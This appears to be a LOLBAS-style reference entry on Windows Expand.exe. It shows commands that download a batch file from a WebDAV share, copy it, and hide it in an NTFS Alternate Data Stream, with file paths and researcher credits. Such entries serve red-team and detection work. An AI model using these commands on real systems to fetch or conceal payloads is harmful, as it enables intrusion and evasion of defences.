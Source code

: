 ## Expand.exe
* Functions: Download, Copy, Add ADS
```

expand \\webdav\folder\file.bat c:\ADS\file.bat
Copies source file to destination.

expand c:\ADS\file1.bat c:\ADS\file2.bat
Copies source file to destination.

expand \\webdav\folder\file.bat c:\ADS\file.txt:file.bat
Copies source file to destination Alternate Data Stream (ADS).
```
   
* Resources:   
  * https://twitter.com/infosecn1nja/status/986628482858807297
  * https://twitter.com/Oddvarmoe/status/986709068759949319
   
* Full path:   
  * c:\windows\system32\Expand.exe
  * c:\windows\sysWOW64\Expand.exe
   
* Notes: Thanks to Rahmat Nurfauzi - @infosecn1nja, Oddvar Moe - @oddvarmoe  
   

